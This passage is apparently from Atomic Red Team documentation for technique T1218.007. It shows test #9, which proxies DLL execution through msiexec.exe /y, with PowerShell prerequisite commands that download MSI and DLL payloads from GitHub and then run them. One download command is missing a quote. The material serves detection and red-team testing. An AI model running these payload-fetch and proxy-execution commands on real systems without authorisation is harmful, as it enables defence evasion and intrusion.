 ##### Check Prereq Commands:

```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_EXE.msi" -OutFile "#{msi_payload}"
```

<br/>
<br/>

## Atomic Test #9 - Msiexec.exe - Execute the DllRegisterServer function of a DLL

Loads a DLL into msiexec.exe and calls its DllRegisterServer function. Note: the DLL included in the "bin" folder is only built for 64-bit, so this won't work on a 32-bit OS.

**Supported Platforms:** Windows

**auto_generated_guid:** 0106ffa5-fab6-4c7d-82e3-e6b8867d5e5d

#### Inputs:

| Name        | Description                                                       | Type | Default Value                                               |
| ----------- | ----------------------------------------------------------------- | ---- | ----------------------------------------------------------- |
| dll_payload | DLL to execute that has an implemented DllRegisterServer function | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;MSIRunner.dll |
| msi_exe     | MSIExec File Path                                                 | path | c:&#92;windows&#92;system32&#92;msiexec.exe                 |

#### Attack Commands: Run with `command_prompt`!

```cmd
#{msi_exe} /y "#{dll_payload}"
```

#### Dependencies: Run with `powershell`!

##### Description: The DLL must exist on disk at specified location (#{dll_payload})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_payload}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/MSIRunner.dll -OutFile "#{dll_payload}"
```
